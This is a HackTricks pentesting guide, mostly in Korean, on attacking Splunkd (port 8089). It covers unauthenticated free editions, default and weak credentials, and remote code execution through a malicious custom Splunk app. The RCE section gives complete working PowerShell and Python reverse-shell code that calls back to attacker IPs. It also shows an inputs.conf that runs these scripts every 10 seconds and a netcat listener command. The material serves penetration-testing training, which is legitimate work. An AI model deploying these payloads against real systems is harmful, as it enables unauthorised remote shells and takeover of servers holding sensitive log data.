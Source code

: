 # 8089 - Pentesting Splunkd

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **기본 정보**

Splunk는 **데이터 수집, 분석 및 시각화**에서 중요한 역할을 하는 **로그 분석 도구**입니다. 초기 목적은 **SIEM(보안 정보 및 이벤트 관리)** 도구로 사용되는 것이 아니었지만, **보안 모니터링** 및 **비즈니스 분석** 분야에서 인기를 얻었습니다.

Splunk 배포는 종종 **민감한 데이터**를 저장하는 데 사용되며, 시스템을 침해할 경우 잠재적인 공격자에게 **귀중한 정보 출처**가 될 수 있습니다. **기본 포트:** 8089
```
PORT     STATE SERVICE VERSION
8089/tcp open  http    Splunkd httpd
```
{% hint style="info" %}
기본적으로 **Splunk 웹 서버는 포트 8000에서 실행됩니다**.
{% endhint %}

## 열거

### 무료 버전

Splunk Enterprise 체험판은 **60일 후 무료 버전으로 전환되며**, **인증이 필요하지 않습니다**. 시스템 관리자가 Splunk의 체험판을 설치하여 테스트하는 것은 드문 일이 아니며, 이는 **그 후 잊혀지곤 합니다**. 이는 인증이 전혀 없는 무료 버전으로 자동 전환되어 환경에 보안 구멍을 초래합니다. 일부 조직은 예산 제약으로 인해 무료 버전을 선택할 수 있으며, 사용자/역할 관리가 없다는 것의 의미를 완전히 이해하지 못할 수 있습니다.

### 기본 자격 증명

구버전의 Splunk에서는 기본 자격 증명이 **`admin:changeme`**로, 로그인 페이지에 편리하게 표시됩니다.\
그러나 **최신 버전의 Splunk**는 **설치 과정 중에 자격 증명을 설정합니다**. 기본 자격 증명이 작동하지 않는 경우, `admin`, `Welcome`, `Welcome1`, `Password123`와 같은 일반적인 약한 비밀번호를 확인해 볼 가치가 있습니다.

### 정보 얻기

Splunk에 로그인하면 **데이터를 탐색하고**, **보고서를 실행하며**, **대시보드를 생성하고**, Splunkbase 라이브러리에서 **응용 프로그램을 설치**하고, 사용자 정의 응용 프로그램을 설치할 수 있습니다.\
코드를 실행할 수도 있습니다: Splunk는 서버 측 Django 애플리케이션, REST 엔드포인트, 스크립트 입력 및 경고 스크립트와 같은 여러 가지 방법으로 **코드를 실행**할 수 있습니다. Splunk 서버에서 원격 코드 실행을 얻는 일반적인 방법은 스크립트 입력을 사용하는 것입니다.

또한, Splunk는 Windows 또는 Linux 호스트에 설치할 수 있으므로 Bash, PowerShell 또는 Batch 스크립트를 실행하기 위해 스크립트 입력을 생성할 수 있습니다.

### Shodan

* `Splunk build`

## RCE

### 사용자 정의 애플리케이션 만들기

사용자 정의 애플리케이션은 **Python, Batch, Bash 또는 PowerShell 스크립트**를 실행할 수 있습니다.\
**Splunk에는 Python이 설치되어 있으므로**, **Windows** 시스템에서도 Python 코드를 실행할 수 있습니다.

[**이**](https://github.com/0xjpuff/reverse\_shell\_splunk) Splunk 패키지를 사용하여 도움을 받을 수 있습니다. 이 리포지토리의 **`bin`** 디렉토리에는 [Python](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/rev.py) 및 [PowerShell](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/run.ps1) 예제가 있습니다. 단계별로 진행해 보겠습니다.

이를 달성하기 위해, 먼저 다음 디렉토리 구조를 사용하여 사용자 정의 Splunk 애플리케이션을 생성해야 합니다:
```shell-session
tree splunk_shell/

splunk_shell/
├── bin
└── default
```
The **`bin`** 디렉토리에는 우리가 실행할 **스크립트**가 포함될 것입니다 (이 경우 **PowerShell** 리버스 셸) 및 기본 디렉토리에는 우리의 `inputs.conf` 파일이 있을 것입니다. 우리의 리버스 셸은 **PowerShell 원라이너**가 될 것입니다:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close(
```
The [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) 파일은 Splunk에 **어떤 스크립트를 실행할지** 및 기타 조건을 알려줍니다. 여기서 우리는 앱을 활성화로 설정하고 Splunk에 스크립트를 10초마다 실행하도록 지시합니다. 간격은 항상 초 단위이며, 이 설정이 존재할 경우에만 입력(스크립트)이 실행됩니다.
```shell-session
cat inputs.conf

[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = shell

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```
우리는 애플리케이션이 배포될 때 실행되고 PowerShell 원라이너를 실행할 `.bat` 파일이 필요합니다.

다음 단계는 `Install app from file`을 선택하고 애플리케이션을 업로드하는 것입니다.

<figure><img src="../.gitbook/assets/image (668).png" alt=""><figcaption></figcaption></figure>

악성 사용자 정의 앱을 업로드하기 전에 Netcat 또는 [socat](https://linux.die.net/man/1/socat)을 사용하여 리스너를 시작합시다.
```shell-session
sudo nc -lnvp 443

listening on [any] 443 ...
```
On the `Upload app` page, click on browse, choose the tarball we created earlier and click `Upload`. As **우리가 애플리케이션을 업로드하는 즉시**, a **리버스 셸이 수신됩니다** as the status of the application will automatically be switched to `Enabled`.

#### Linux

If we were dealing with a **Linux host**, we would need to **edit the `rev.py` Python script** before creating the tarball and uploading the custom malicious app. The rest of the process would be the same, and we would get a reverse shell connection on our Netcat listener and be off to the races.
```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```
### RCE & Privilege Escalation

다음 페이지에서는 이 서비스를 악용하여 권한을 상승시키고 지속성을 얻는 방법에 대한 설명을 찾을 수 있습니다:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

